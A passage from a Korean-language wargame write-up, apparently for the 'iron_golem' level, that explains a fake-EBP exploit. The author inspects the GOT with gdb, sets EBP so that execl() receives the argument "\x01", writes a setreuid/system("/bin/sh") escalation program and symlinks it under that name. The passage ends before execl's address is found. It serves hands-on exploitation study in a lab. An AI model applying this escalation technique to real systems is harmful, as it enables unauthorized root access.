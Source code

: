 got영역의 주소를 보면 0x08049618임을 확인 할 수 있다.



```assembly
(gdb) x/8wx 0x8049618
0x8049618 <_GLOBAL_OFFSET_TABLE_>:	0x0804954c	0x007194f8	0x0070e9e0	0x00730d50
```

해당 주소를 보면 0x0804954c를 가리키고 있다.

```assembly
(gdb) x/x 0x0804954c
0x804954c <_DYNAMIC>:	0x00000001
```

주소를 따라가보면 1이라는 값을 가지고 있다.



.got.plt 를 따라가보면 거의 대부분 1이라는 값을 가리키고 있기 때문에 이를 많이 사용한다.

여기서 중요한점은 FakeEBP를 사용하는 이유는 execl()함수의 인자값으로 참조 시키기 위함이라고 설명하였다.

그리고 대부분 함수에서 인자들은 EBP를 기준으로 EBP+8, EBP+12 이렇게 들어간다고 설명하였다.

따라서 우리도 이거에 맞춰서 .got.plt주소의 -8한 값을 넘겨주어야 EBP가 우리가 원하는 값으로 셋팅이 된다.

<img src="http://eliez3r.synology.me/assets/blog/writeup/fc3/1.iron_golem/image-20180807135423025.png" width="500px">

위와 같이 메모리상태가 되게 되면 execl("\x01") 함수가 실행되는 형태가 된다.



여기까지 execl함수를 이용하여 실행하는 것까지 되었지만, "\x01"이 실행되기 때문에 우리가 원하는 것이 실행되지 않는다.

이때 심볼릭 링크를 사용하여 뭔하는 프로그램이 실행되도록 하면 된다.

```c
[gate@Fedora_1stFloor ~]$ cat ex.c
#include<stdio.h>

int main(){
	setreuid(geteuid(), geteuid());
	system("/bin/sh");
	return 0;
}
```

위 처럼 권한상승하는 ex라는 프로그램을 만들어 준다. 그리고 ex프로그램을 "\x01"라는 이름으로 심볼릭링크 걸어주면, execl("\x01")이 실행되면 ex프로그램이 실행되어 권한 상승이 일어나고 쉘이 실행되게 된다.



```sh
[gate@Fedora_1stFloor ~]$ ln -s ./ex `python -c 'print "\x01"'`
[gate@Fedora_1stFloor ~]$ ls -l
total 80
lrwxrwxrwx  1 gate       gate          4 Aug  1 12:46 ? -> ./ex
```



이제 execl()의 주소를 알아보자.

